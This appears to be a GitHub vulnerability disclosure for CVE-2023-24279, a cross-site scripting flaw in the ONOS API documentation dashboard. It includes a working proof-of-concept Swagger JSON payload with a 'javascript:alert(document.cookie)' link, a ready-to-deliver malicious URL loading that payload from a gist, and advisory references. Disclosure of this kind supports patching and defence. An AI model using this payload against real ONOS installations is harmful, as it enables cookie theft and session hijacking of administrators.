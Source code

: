 # CVE-2023-24279

Description
------

A cross-site scripting (XSS) vulnerability in Open Networking Foundation ONOS from version v1.9.0 to v2.7.0 allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the url parameter of the API documentation dashboard.


PoC
------

PoC for CVE-2023-24279: [@edoardottt Youtube video](https://www.youtube.com/watch?v=1mSXzzwcGMM)

Vulnerable endpoint: http://localhost:8181/onos/v1/docs/

Payload: 
```json
{
  "swagger" : "2.0",
  "info" : {
    "version" : "1.0.100",
    "title" : "Swagger UI v2.2.10 XSS POC",
    "description" : "Swagger UI v2.2.10 XSS POC",
    "contact" : {
      "name" : "edoardottt",
      "url" : "javascript:alert(document.cookie)",
      "email" : "edoardott@gmail.com"
    },
  },
}
```

Malicious URL ready to be delivered: http://localhost:8181/onos/v1/docs/?url=https://gist.githubusercontent.com/edoardottt/197f4bc482eddb263c47b525268d1628/raw/49ad93f4e5832d6e6af5cf4f9962dd9bebf9f3c1/onos-xss-poc.json

References
------
- https://www.edoardoottavianelli.it/CVE-2023-24279
- https://nvd.nist.gov/vuln/detail/CVE-2023-24279
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-24279
- https://github.com/advisories/GHSA-3xmp-jwrr-8f4r
- https://www.tenable.com/cve/CVE-2023-24279
- https://www.opencve.io/cve/CVE-2023-24279

<br>

Links useful while researching for this CVE:

- https://github.com/swagger-api/swagger-ui/pull/3848
- https://github.com/swagger-api/swagger-ui/commit/f87eaaa81073a61e30ff0cedee4fd9cd2dd1fca9
- https://github.com/swagger-api/swagger-ui/commit/f87eaaa81073a61e30ff0cedee4fd9cd2dd1fca9#diff-f510249cd192f2f011846a9640aebfd0c96995e744aa55e3b1c2e541da62a9ef
- https://security.snyk.io/vuln/npm:swagger-ui:20171031
- https://security.snyk.io/vuln/npm:swagger-ui:20160721
- https://security.snyk.io/vuln/npm:swagger-ui:20160901
